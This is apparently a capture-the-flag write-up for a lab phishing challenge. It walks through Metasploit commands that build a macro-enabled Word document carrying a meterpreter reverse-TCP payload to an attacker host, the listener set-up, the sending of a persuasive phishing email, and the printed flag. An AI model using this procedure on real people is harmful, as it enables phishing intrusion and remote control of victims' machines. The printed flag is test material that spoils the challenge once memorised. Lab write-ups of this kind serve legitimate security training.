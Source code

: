 # Ghost Phishing 

## Challenge Description
> ![image](https://github.com/user-attachments/assets/25fe2ec9-ef5b-4405-8968-8748c5664f39)

## Solution
This challenge reminded me of a similar scenario I encountered during the [Advent of Cyber 2024](https://tryhackme.com/room/adventofcyber2024) event.

We accessed the webmail interface at:
`http://10.10.62.187/`

Using the provided credentials:
`Username: specter@darknetmail.corp`
`Password: YouCantCatchMe`

This granted us access to DarkSpecter’s email account, where we aimed to deliver a malicious document to our target, Cipher (cipher@darknetmail.corp).

![image](https://github.com/user-attachments/assets/795a04e3-d21a-4fcf-8ea8-b2b5713cd436)

To exploit the target system, we needed to embed a malicious macro into a Word document. Instead of manually embedding the macro, we used Metasploit Framework to generate it automatically.

> [!NOTE]  
> ### Steps to Generate the Malicious Macro
> 1. Open a terminal and start Metasploit:
>    
>    ```
>    msfconsole
>    ```
> 2. Configure the payload to create a reverse shell:
>
>    ```
>    use exploit/multi/fileformat/office_word_macro
>    set payload windows/meterpreter/reverse_tcp
>    set LHOST <ATTACKBOX_IP> //Im using openvpn, thus use ifconfig to find your machine's IP
>    set LPORT 8888
>    ```
> 3. Verify the settings:
>       
>    ```
>    show options
>    ```
> 4. Generate the malicious Word document:
>
>    ```
>    exploit
>    ```

![image](https://github.com/user-attachments/assets/d14994da-2a66-4929-85ec-75a8a1942628)

This created a macro-enabled Word document (.docm) embedded with our payload.

To receive a connection when the target opens the malicious document, we used Metasploit’s multi/handler module:
> [!NOTE]  
> ### Setting Up a Listener
> 1. Open a terminal and start Metasploit:
>    
>    ```
>    msfconsole
>    ```
> 2. Set up the listener:
>
>    ```
>    use multi/handler
>    set payload windows/meterpreter/reverse_tcp
>    set LHOST <ATTACKBOX_IP>
>    set LPORT 8888
>    ```
> 3. Verify the settings:
>       
>    ```
>    show options
>    ```
> 4. Start listening for connections:
>
>    ```
>    exploit
>    ```      

Now, when the target opens the document, we will receive a reverse shell.

The next step is to send the phishing email.
> [!NOTE]
> ### Sending the Phishing Email
> 1. Log into the webmail interface.
> 2. Compose a new email addressed to cipher@darknetmail.corp.
> 3. Attach the malicious document (renaming it to something convincing like report.docm).
> 4. Write a persuasive message to encourage the recipient to open the document.
> 5. Send the email.

Once the target opens the document, our reverse shell should trigger within ~2 minutes.

![image](https://github.com/user-attachments/assets/a8fc92ea-d0a0-4831-b9fe-bb5f772ffe0a)

When the target executed the macro, we received a connection on our Metasploit listener:

![image](https://github.com/user-attachments/assets/0c8561fb-f362-47d7-a69f-39711057d7a0)

We navigated to the Administrator’s Desktop:
```
meterpreter > cd c:/users/Administrator/Desktop
meterpreter > ls
```
We retrieved the flag:
```
meterpreter > cat flag.txt
THM{gh0st_ph1sh1ng_exp0s3d}
```
![image](https://github.com/user-attachments/assets/26b1721a-fb64-4b05-9f68-d71f849628d5)

## Conclusion

The challenge demonstrated the effectiveness of phishing attacks in compromising a target system. Office documents can be weaponized using VBA macros to execute arbitrary code.
Crafting a convincing email is crucial for successful phishing attacks. The Metasploit framework provides robust modules for creating payloads and handling connections.

 ## Flag
 THM{gh0st_ph1sh1ng_exp0s3d}
